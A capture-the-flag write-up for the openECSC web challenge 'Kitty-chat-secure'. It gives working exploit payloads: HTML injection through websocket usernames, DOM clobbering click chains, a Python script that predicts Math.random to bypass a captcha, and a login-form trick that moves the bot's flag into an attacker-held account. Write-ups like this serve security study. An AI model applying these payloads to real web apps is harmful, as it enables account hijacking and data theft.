


# Kitty-chat-secure

I just spent my last week into playing openECSC, i need a little bit skills to clear all webs but its a nice try. 


Below is my write up for the Kitty-chat-secure which i luckily get the second solves in 3 solves at all !!!
This is a really cool challenge of [@rebane](https://x.com/rebane2001). 
You **MUST** give it a try at all.

# TLDR :
1. Triggering  the loadPrivateNotes to reveal the flag
2. Then try to trigger loggin form as username "test"
3. Trigger the loadPrivateNotes again then the flag will be set as note of "test" due to this code read the first value (flag) not the (note of "test" user)

# What we currentlly can do ?
- Ok just html injection with strict csp and script-src is self.
# Race condition
- We can load user script to load /message.js then dom clobbering  to get one click abritary. 
- To achieve that we make the bot have the "?msg=" , we can use meta redirect at the time the bot comes because it sleeps 2 second before hooking the add chat .
- If we redirect after the bot hook the function , we cannot interact with that bot any more ...
```js
    await page.goto(`${host}/`);
    await new Promise(resolve => setTimeout(resolve, 2000)); (  redirect here )
    await page.evaluate(() => {HOOKCHAT})
```
# Clicking chain
- The bot will click to  class "redirect" and we can combine that with  another gadget is  : 

```js
document.querySelector("#loadPrivate").onclick = () => loadPrivateNotes();
```
```html
<button class="redirect" id="loadPrivate">hehe</button><script src="/captcha/captcha.js"></script><script src="/account.js"></script><script src="/message.js"></script>
```
- This will load the captcha up .

# Bypass captcha
- Using the Math.random predict , we can collect the input using the "!fact" of the bot .
- Then i use this repo to predict that  (https://github.com/StroppaFR/mathrandomcrack)
- Again dom cloberring using **\<section>** to not be removed by javascript because it just remove the div.captcha .
```html
<section class="captcha">
  <p>Select all cats to continue:</p>
  <div>
    
    
    
    
    
    
    
    
    
  </div>
</section>
```
- But we need to trigger a click again to trigger the CheckCaptcha function . We again use the gadget one click and wrap our button in a class "notes" 
```js
  const notesBtn = document.querySelector(".notes button");
  notesBtn.onclick = hasText ? updateNotes() : null;
```

So we have something like :
```js
<div class="notes"><button class="redirect" id="loadPrivate">hehe</button></div><script src="/captcha/captcha.js"></script><script src="/account.js"></script><script src="/message.js"></script><script defer src="/message.js"></script>
```
The main ideas, is after one click our only button will be updated its onclick function and we click another time will make other things .
Send second  message.js to click trigger the captcha checking.
After successfully , the flag now is loaded .

# Send flag to another user .
- After the flag is revealed , im getting stuck here and think about something html to leak the flag but it seem impossible.
- Finally when i focus the function loadPrivateNotes , i found something sus.

When updating the notes , it not read the "input.value" but read from document.querySelector and just get the first one now (=>FLAG)
```js
body: JSON.stringify({ key: await getUserKey(), note: document.querySelector(".notes input").value }),

```
This is very sus because what if we have something like : 


**The flag will be sent instead of the others note because it query just get the first one appear!!**

Then this lead me to a solution ! If we can use the one click to make a login request as our user? Then load private notes again and the flag will be sent to our users !!!

So we make a form  submit to login as username "test" :
I just paste this in the console 
```js
socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: '<p href ="/" id="username"></p><p id="message"><form action="/login" method="POST"  target="hidden_iframe"><input type="text" name="password" value="test"><input type="text" name="username" value="test"><button class="redirect" type="submit">Save</button></form><script src="/message.js"></script>'
}));

socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));
```
After that we need to trigger loadPrivates and bypass captcha again to trigger update notes. To trigger update notes we use the same trick when clicking twice at clicking captcha.

My flow like this :

Paste this to console at right time :
```js

socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: ' <meta http-equiv="refresh" content="0;url=?msg=hihi">'
}));

socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));
```
Then run this collect and predict script :
```py
import asyncio
import os 
import re
import json
import random
import aiohttp
import websockets
import ast

BASE_URL = "http://localhost:3000"   # đổi sang domain
WS_URL = "ws://localhost:3000"       # wss:// nếu chạy HTTPS
BASE_URL = "https://ff7ccd0a-4927-42aa-82d0-5cca00fc80e5.openec.sc:1337"   # đổi sang domain
WS_URL = "wss://ff7ccd0a-4927-42aa-82d0-5cca00fc80e5.openec.sc:1337"       # wss:// nếu chạy HTTPS

#  flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}
# flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}
FUN_FACTS = [
    "ecsc 2023 took place in norway",
    "ecsc 2024 took place in italy",
    "ecsc 2025 will take place in poland",
    "cats have 8 feet (this is not actually a real fact)",
    "i am a bot",
    "i love music!!",
    "you can store notes in kittychat",
    "you're awesome!",
    "using csp is a great way to make your website unhackable",
    "did you know that vikingskipet was built for the ice skating competition during the winter olympics in 1994?",
    "the solution to this challenge is: flag{dQw4w9WgXcQ}",
    "if you type your credit card number in the chat it'll appear censored! try it :3"
]

LEAK = []
username = f"kitten_{random.randint(1000,9999)}"
user = {}
socket = None
current_channel = None
admin_seen = asyncio.Event()
admin_id = None   # real admin username

SCALED_VALUES_PATH = "./mathrandomcrack/samples/scaled_values.txt"
SCALED_BOOLS_PATH = "./mathrandomcrack/samples/scaled_bools.txt"

async def fetch_user():
    global user, username
    async with aiohttp.ClientSession() as session:
        try:
            async with session.get(f"{BASE_URL}/user") as resp:
                if resp.status == 200:
                    user = await resp.json()
                    if "username" in user:
                        username = user["username"]
                        print(f"Logged in as {username}")
        except Exception as e:
            print("No user session:", e)


def find_fact_index(msg: str, facts_list: list) -> int:
    try:
        return facts_list.index(msg)
    except ValueError:
        return -1


def extract_msg(text: str):
    # returns (user, body) or (None, trimmed_text)
    m = re.match(r'^\s*<([^>]+)>\s*(.*)$', text, flags=re.DOTALL)
    if m:
        return m.group(1), m.group(2).strip()
    return None, text.strip()


def add_chat_message(msg: str):
    user_, body = extract_msg(msg)
    if body:
        index = find_fact_index(body, FUN_FACTS)
        if index != -1:
            LEAK.append(index)
            print(f"Current leak:{LEAK} LEN={len(LEAK)}")
            if len(LEAK) >= 75:
                print("\n🎉 Leak complete! Writing FUN_FACTS to leak.txt\n")
                # ensure directory exists
                os.makedirs(os.path.dirname(SCALED_VALUES_PATH), exist_ok=True)
                with open(SCALED_VALUES_PATH, "w", encoding="utf-8") as f:
                    for idx in LEAK:
                        f.write(str(idx) + "\n")
                # schedule processing (non-blocking)
                try:
                    loop = asyncio.get_event_loop()
                    loop.create_task(process_leak_file(SCALED_VALUES_PATH))
                except RuntimeError:
                    # if called outside running loop, run synchronously (rare)
                    asyncio.run(process_leak_file(SCALED_VALUES_PATH))

                LEAK.clear()

    # formatting output
    if msg.startswith("==="):
        print(f"\033[90m{msg}\033[0m")
    elif user_ and user_ != username:
        print(f"\033[91m{msg}\033[0m")
    elif user_ == username:
        print(f"\033[94m{msg}\033[0m")
    else:
        print(msg)

    # detect real admin by special intro line
    if body and "use !help to find out what i can do" in body:
        global admin_id
        if admin_id is None and user_:
            admin_id = user_
            print(f"✅ Confirmed real admin: {admin_id}")
            admin_seen.set()


# --- run mathrandomcrack on the saved file, parse output, produce boolean array ---
async def process_leak_file(filepath: str):
    """
    Runs:
      python3 -m mathrandomcrack --method scaled --next 9 --factor 12 --output-fmt doubles {filepath}
    Captures stdout, finds the 'Predicted next 9 values: [...]' line(s),
    takes the last occurrence, parses the list, converts to booleans (v>0.5),
    prints and writes booleans to SCALED_BOOLS_PATH (one per line as 0/1 or True/False JSON).
    """
    cmd = [
        "python3", "-m", "mathrandomcrack",
        "--method", "scaled",
        "--next", "9",
        "--factor", "12",
        "--output-fmt", "doubles",
        filepath
    ]
    print(f"Running: {' '.join(cmd)}")
    try:
        proc = await asyncio.create_subprocess_exec(
            *cmd,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE
        )
    except FileNotFoundError as e:
        print("Failed to start mathrandomcrack: python3 or module not found.", e)
        return

    stdout_bytes, stderr_bytes = await proc.communicate()
    stdout = stdout_bytes.decode(errors="ignore")
    stderr = stderr_bytes.decode(errors="ignore")

    if stderr:
        print("mathrandomcrack stderr:", stderr)

    # Find the last "Predicted next ... values: [...]" line
    matches = re.findall(r"Predicted next \d+ values:\s*(\[[^\]]*\])", stdout)
    if not matches:
        print("No prediction line found in mathrandomcrack output.")
        print("Full stdout for debugging:\n", stdout)
        return

    last_list_text = matches[-1]
    # Parse the Python-style list safely
    try:
        values = ast.literal_eval(last_list_text)
        if not isinstance(values, (list, tuple)) or len(values) == 0:
            raise ValueError("Parsed value is not a non-empty list")
    except Exception as e:
        print("Failed to parse predicted values:", e)
        print("List text was:", last_list_text)
        return

    # Ensure we have 9 values (best-effort)
    print(f"Parsed predicted values ({len(values)}): {values}")
    bools = [bool(v > 0.5) for v in values]
    print("Converted to booleans (True if >0.5):", bools)

    # Write boolean results (JSON) and also a human-readable 0/1 file
    try:
        os.makedirs(os.path.dirname(SCALED_BOOLS_PATH), exist_ok=True)
        with open(SCALED_BOOLS_PATH, "w", encoding="utf-8") as f:
            json.dump({"predicted_values": values, "bools": bools}, f, indent=2)
        with open(SCALED_BOOLS_PATH + ".lines", "w", encoding="utf-8") as f:
            for b in bools:
                f.write(("1\n" if b else "0\n"))
        print(f"Wrote booleans to {SCALED_BOOLS_PATH} and {SCALED_BOOLS_PATH}.lines")
    except Exception as e:
        print("Failed to write booleans to disk:", e)


# --- socket helpers ---
async def send_socket(ws, data: dict):
    await ws.send(json.dumps(data))

async def send_chat(ws, text: str):
    await send_socket(ws, {"type": "MESSAGE", "text": text})

async def send_start(ws, username: str):
    await send_socket(ws, {"type": "START", "username": username})

async def send_login(ws, username: str, key: str):
    await send_socket(ws, {"type": "LOGIN", "username": username, "key": key})


async def init_socket():
    global socket, current_channel, user, username, admin_id

    async with websockets.connect(WS_URL) as ws:
        socket = ws
        if user.get("userkey"):
            await send_login(ws, username, user["userkey"])
        await send_start(ws, username)

        async def sender():
            # request admin first
            for i in range(75):
                await send_chat(ws, "!fact")
                await asyncio.sleep(0.3)  # prevent flooding too fast

            print("✅ Finished sending 75 !fact commands")


            # then switch to manual input
            while True:
                msg = await asyncio.get_event_loop().run_in_executor(None, input, "> ")
                if msg.strip().lower() == "quit":
                    break
                await send_chat(ws, msg)

        async def receiver():
            try:
                async for message in ws:
                    data = json.loads(message)
                    match data["type"]:
                        case "CHANNEL":
                            current_channel = f"#{data['channel']}"
                            add_chat_message(f"=== joined {current_channel} ===")

                        case "USERS":
                            users = data["users"]
                            print("Currently online:", ", ".join(users))

                        case "MESSAGE":
                            add_chat_message(data["text"])

                        case _:
                            print("Unknown:", data)
            except websockets.ConnectionClosed:
                add_chat_message("=== connection lost ===")

        await asyncio.gather(sender(), receiver())


async def main():
    await fetch_user()
    await init_socket()


if __name__ == "__main__":
    asyncio.run(main())
```
After that run the genHtml.py below to get a payload to paste into console  :

genHtml.py
```py
    import json

file_path = "./mathrandomcrack/samples/scaled_bools.txt"

with open(file_path, "r", encoding="utf-8") as f:
    data = json.load(f)

bool_array = data.get("bools", [])

print("Boolean array:", bool_array)

img_srcs = [f"captcha/img_{i}.webp" for i in range(0,9)]

html_lines = ['<section class="captcha">', '  <p>Select all cats to continue:</p>', '  <div>']

for idx, selected in enumerate(bool_array):
    cls = ' class="selected"' if selected else ''
    html_lines.append(f'    ')

html_lines.append('  </div>')
html_lines.append('  <div class="notes"><button class="redirect" id="loadPrivate">hehe</button></div><script src="/captcha/captcha.js"></script>')
html_lines.append('</section>')

html_result = "\n".join(html_lines).replace("\n","")

print("\n".join(html_lines))

template1='''
socket.send(JSON.stringify({
  type: 'LOGIN', 
  username: '{payload}<p id="username"></p><p href ="/" id="loadPrivate"></p><p id="message"></p><script src="/account.js"></script><script src="/message.js"></script><script defer src="/message.js"></script><script defer src="/message.js"></script>'
}));


socket.send(JSON.stringify({
  type: 'START', 
  username: 'awef'
}));'''

print(template1.replace("{payload}",html_result))
```
After pasting done , the captcha get bypassed and the note is reveal
then logging as "test" user like above.

Then run the genHtml.py again and paste into console then check out the "test" user and we have the flag !!
Flag : **flag{y0u_4r3_pr3tty_p4w3s0m3_f0r_s0lv1ng_th1s_w1th_th3_c5p}**
# Closing thought : 
I really love this challenge when no thing really news !! When just basic stuffs get combined and a very great challenge get born !
Thanks to [@rebane](https://x.com/rebane2001) for creating a very cool challenge !!!